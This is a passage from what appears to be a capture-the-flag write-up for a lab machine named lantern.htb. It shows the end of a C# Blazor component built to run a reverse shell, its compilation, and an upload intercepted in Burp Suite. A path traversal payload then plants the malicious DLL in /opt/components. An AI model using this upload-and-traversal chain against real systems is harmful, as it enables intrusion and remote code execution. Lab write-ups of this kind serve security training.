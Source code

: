 ```C#

                    return output;
                }
                catch (Exception ex)
                {
                    return $"Error: {ex.Message}";
                }
            });
        }

        protected override void BuildRenderTree(RenderTreeBuilder builder)
        {
            base.BuildRenderTree(builder);

            // Display the output from the reverse shell
            if (!string.IsNullOrEmpty(_shellOutput))
            {
                builder.AddContent(0, _shellOutput);
            }
            else
            {
                builder.AddContent(0, "Executing reverse shell...");
            }
        }
    }
}
```

Now let's compile it : `dotnet build`

Then I upload it and intercept the request with burpsuite. Some non ascii chars. Indeed it's blazor specific. Hopfully there is a burpsuite [extension] to read blazor !

![image](./deserialize.png)

Now let's try to path transversal and upload our dll to `/opt/components`. The path from `/var/www/sites/lantern.htb/static/images` should be `../../../../../../opt/components/uilop.dll`. I can edit the path and serialze the data. Then copying back to the inital request and send it !
